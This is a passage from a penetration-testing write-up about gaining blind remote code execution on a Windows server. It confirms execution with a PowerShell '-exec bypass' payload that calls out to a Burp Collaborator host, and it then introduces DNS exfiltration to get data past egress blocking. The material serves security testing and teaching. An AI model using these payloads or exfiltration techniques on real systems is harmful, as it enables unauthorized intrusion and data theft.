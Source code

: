 Once the system receives the post request, it simply returns a `202` response and nothing else.

My first payloads consisted of callbacks to my burp collaborator using via TCP using `wget`, UDP using `nslookup` and ICMP using `ping`. But none of them were giving me any response. Next I tried writing to files so that I could get a webshell. But the path was difficult to ascertain. The PoC gave different paths and none of them where working for me. I came to the conclusion that the path is probably different from system to system. So it seems to be a dead end.

## DNS Requests

As I was trying out windows payloads using powershell and `wget`, I noticed that I was getting DNS hits on my burp collaborator. The hits came only once for each collaborator URL and the hit was coming from a name server that belonged to the organization I was testing. To confirm that this was indeed triggered by my payload I added a sleep before the payload to create a delay before the DNS query. 

The payload I was using was 

```powershell
powershell -exec bypass -c "sleep 60;wget 'kuiudtisadndwxklxi7g9c6rwi28qx.burpcollaborator.net'"
```

And I did get a hit exactly after 65 seconds, which confirms that the system is running on windows and we indeed have blind RCE.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.2.png){: .align-center}
image 1.2

Looking at the above picture, we can see that something is trying to resolve our request, but the actual request is getting blocked. There was also one more thing I noticed. If I try the same url again, I would not get a DNS hit as the DNS request is probably getting cached.

## DNS Exfilteration

So we have the following

1. We have RCE on a system, but there is no way to read the output.
2. The application cannot initiate communication with any system outside. So all kinds of callbacks are out of question.
3. We get DNS hits for the URL we send to the system.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.3.png){: .align-center}
image 1.3

Our application infra probably looks something like the above picture.

After some research, I came upon this awesome technique called DNS exfiltration. 

> Actually, this is not new technical, according to the Akamai, this technique is about 20 years old. In a simple definition, DNS Data exfiltration is way to exchange data between 2 computers without any directly connection, the data is exchanged through DNS protocol on intermediate DNS servers.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.4.png){: .align-center}
image 1.4 
